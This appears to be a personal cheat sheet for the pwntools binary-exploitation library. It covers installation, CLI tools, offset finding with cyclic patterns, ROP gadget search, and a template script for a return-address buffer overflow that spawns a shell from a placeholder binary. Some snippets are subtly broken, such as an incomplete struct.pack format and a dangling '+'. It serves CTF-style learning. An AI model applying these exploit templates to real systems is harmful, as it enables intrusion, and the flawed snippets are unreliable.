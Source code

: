 # Pwntools

## Installation

There are main ways but I found this method work best for me, check yourself.
```bash
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
export PYTHONPATH=/home/$1/.local/bin
```

CLI binaries
- [pwn asm](https://docs.pwntools.com/en/stable/commandline.html#pwn-asm)
- [pwn checksec](https://docs.pwntools.com/en/stable/commandline.html#pwn-checksec)
- [pwn constgrep](https://docs.pwntools.com/en/stable/commandline.html#pwn-constgrep)
- [pwn cyclic](https://docs.pwntools.com/en/stable/commandline.html#pwn-cyclic)
- [pwn debug](https://docs.pwntools.com/en/stable/commandline.html#pwn-debug)
- [pwn disablenx](https://docs.pwntools.com/en/stable/commandline.html#pwn-disablenx)
- [pwn disasm](https://docs.pwntools.com/en/stable/commandline.html#pwn-disasm)
- [pwn elfdiff](https://docs.pwntools.com/en/stable/commandline.html#pwn-elfdiff)
- [pwn elfpatch](https://docs.pwntools.com/en/stable/commandline.html#pwn-elfpatch)
- [pwn errno](https://docs.pwntools.com/en/stable/commandline.html#pwn-errno)
- [pwn hex](https://docs.pwntools.com/en/stable/commandline.html#pwn-hex)
- [pwn libcdb](https://docs.pwntools.com/en/stable/commandline.html#pwn-libcdb)
- [pwn libcdb file](https://docs.pwntools.com/en/stable/commandline.html#pwn-libcdb-file)
- [pwn libcdb hash](https://docs.pwntools.com/en/stable/commandline.html#pwn-libcdb-hash)
- [pwn libcdb lookup](https://docs.pwntools.com/en/stable/commandline.html#pwn-libcdb-lookup)
- [pwn phd](https://docs.pwntools.com/en/stable/commandline.html#pwn-phd)
- [pwn pwnstrip](https://docs.pwntools.com/en/stable/commandline.html#pwn-pwnstrip)
- [pwn scramble](https://docs.pwntools.com/en/stable/commandline.html#pwn-scramble)
- [pwn shellcraft](https://docs.pwntools.com/en/stable/commandline.html#pwn-shellcraft)
- [pwn template](https://docs.pwntools.com/en/stable/commandline.html#pwn-template)
- [pwn unhex](https://docs.pwntools.com/en/stable/commandline.html#pwn-unhex)
- [pwn update](https://docs.pwntools.com/en/stable/commandline.html#pwn-update)
- [pwn version](https://docs.pwntools.com/en/stable/commandline.html#pwn-version)

Enumeration
```bash
r < <(cyclic $INT) # cyclic input of $INT amount
cyclic -l EIP_Address # find out the amount of bytes of input need to expploit the binary
disassemble shell # find out where the shell function is in memory to set it to IP
# EITHER
# IF MANUAL WAY REMEMBER CORRECT ADDRESS LENGTH AND ENDIANNESS
# L->R = littleEndian; R->L = bigEndian
python -c 'print "A"*$INT + "$ADDR"' | /vuln/bin
python -c 'import struct;print "A"*44 + struct.pack("< ", $ADDR)' | /vuln/bin
```

[Context](https://docs.pwntools.com/en/stable/context.html) is powerful, global variable; use with remote for remote host and `gb.debug` to pipe to `gdb`!
```python
# context.terminal = ['alacritty', '-e', 'zsh', '-c'] 
context(terminal=['tmux', 'new-window'])
p = gdb.debug('./vulnerableBinary', 'b main')
p = remote('10.10.10.10', 1337)
context(os='linux', arch='amd64')
```

Find functions for rop chains
```bash
# inside gdb with gef
gef> ropper --search r$num # for legacy-gef or requires gef-extras
# for cli
ropper -f $binary | grep $register_of_the_function # from commandline
# is the equivant
objdump -D $binary  | grep -i $ function_name
```

Packing
```python
p64() # pack 64 bits
```

Sending, receiving input and interactive shell
```python
p.sendline('\x0A'.encode()) # send an enter key
p.sendline(varOne + varTwo + varThree + ) # send variables linearly
p.recvuntil('until some string if it is a prompt')
p.interactive() # works with remote pops shell if part of payload
```


Scripting the buffer overflow
```python
from pwn import *
proc = process('/vuln/bin')
elf = ELF('/vuln/bin')
shell_func = elf.symbols.shell # CHANGE WHATEVER FORMAT REQUIRED
payload = fit({$INT: shell_func })
proc.sendline(payload)
proc.interactive()
```

## References

[docs.pwntools.com](https://docs.pwntools.com/en/stable/)